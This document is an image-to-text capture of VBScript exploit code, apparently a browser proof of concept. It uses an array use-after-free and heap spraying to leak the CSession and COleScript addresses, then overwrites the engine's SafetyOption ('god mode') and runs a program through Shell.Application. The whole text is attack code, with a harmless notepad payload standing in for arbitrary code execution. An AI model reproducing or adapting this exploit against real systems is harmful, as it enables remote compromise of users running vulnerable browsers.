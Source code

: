 ```html

        Function leakMem (arg1, addr)
            d = prefix & "%u0008%u4141%u4141%u4141"
            c = d & intToStr(addr) & b
            x = UnEscape(c)

            aw = Null
            Set aw = New ArrayWrapper

            Dim o
            o = aw.A(arg1, 2)

            leakMem = o
        End Function

        Sub overwrite (arg1, addr)
            d = prefix & "%u400C%u0000%u0000%u0000"
            c = d & intToStr(addr) & b
            x = UnEscape(c)

            aw = Null
            Set aw = New ArrayWrapper

            ' Single has vartype of 0x04
            aw.A(arg1, 2) = CSng(0)
        End Sub

        Function exploit (arg1)
            Dim addr
            Dim csession
            Dim olescript
            Dim mem

            ' Create a vbscript class instance
            Set dm = New Dummy
            ' Get address of the class instance
            addr = getAddr(arg1, dm)
            ' Leak CSession address from class instance
            mem = leakMem(arg1, addr + 8)
            csession = strToInt(Mid(mem, 3, 2))
            ' Leak COleScript address from CSession instance
            mem = leakMem(arg1, csession + 4)
            olescript = strToInt(Mid(mem, 1, 2))
            ' Overwrite SafetyOption in COleScript (e.g. god mode)
            ' e.g. changes it to 0x04 which is not in 0x0B mask
            overwrite arg1, olescript + &H174

            ' Execute notepad.exe
            Set Object = CreateObject("Shell.Application")
            Object.ShellExecute "notepad"
        End Function

        Function triggerBug
            ' Resize array we are currently indexing
            aw.Resize()

            ' Overlap freed array area with our exploit string
            Dim i
            For i = 0 To 32
                ' 24000x2 + 6 = 48006 bytes
                y(i) = Mid(x, 1, 24000)
            Next
        End Function
```